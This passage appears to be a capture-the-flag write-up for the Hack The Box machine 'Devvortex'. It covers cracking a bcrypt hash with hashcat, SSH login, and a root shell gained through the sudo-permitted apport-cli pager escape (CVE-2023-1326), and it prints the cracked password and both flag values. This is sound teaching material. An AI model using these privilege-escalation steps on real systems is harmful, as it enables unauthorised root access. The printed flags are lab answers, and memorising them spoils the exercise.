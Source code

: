Identified the hash as bcrypt (Blowfish) using https://hashes.com/en/tools/hash_identifier.

Cracked with Hashcat:

```bash
hashcat -m 3200 -a 0 logan_hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- Cracked password: `tequieromucho`

SSH as logan:

```bash
ssh logan@devvortex.htb
```

Retrieved user flag:

```bash
cat /home/logan/user.txt
1fb4026b5ac164cf34495e97e85682ae
```

---

## Privilege Escalation

### Enumeration

Checked sudo privileges:

```bash
sudo -l
```

- `(ALL : ALL) NOPASSWD: /usr/bin/apport-cli`

This allows running `apport-cli` as root without a password. Research revealed CVE-2023-1326, a local privilege escalation in apport-cli on Ubuntu.

Exploit PoC: https://github.com/diego-tella/CVE-2023-1326-PoC

### Exploitation

No crash files in `/var/crash/`. Created a new report:

```bash
sudo /usr/bin/apport-cli -f
```

- Selected option 1 (Report a bug in a package).
- Selected option 2 (Choose a package).
- Typed 'V' to view the report.
- In the pager, typed `!/bin/bash` to escape to a root shell.

Retrieved root flag:

```bash
cat /root/root.txt
e3afbbe5970bff2257b741f2d970eaa0
```

---